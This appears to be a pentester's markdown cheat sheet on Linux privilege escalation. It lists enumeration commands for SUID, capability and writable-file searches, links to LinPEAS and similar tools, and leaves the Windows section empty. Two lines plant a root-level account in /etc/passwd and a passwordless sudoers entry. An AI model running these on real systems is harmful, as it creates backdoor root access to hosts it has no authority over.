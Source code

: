 # Privilege Escalation

## Linux
`getcap -r / 2>/dev/null`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
`find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
`sudo -V` to check sudo version, which might be vulnerable.<br>
`echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
`echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoer`<br>

https://gtfobins.github.io/<br>
linpeas.sh<br>

Get Privilege Escalation vectors:<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows

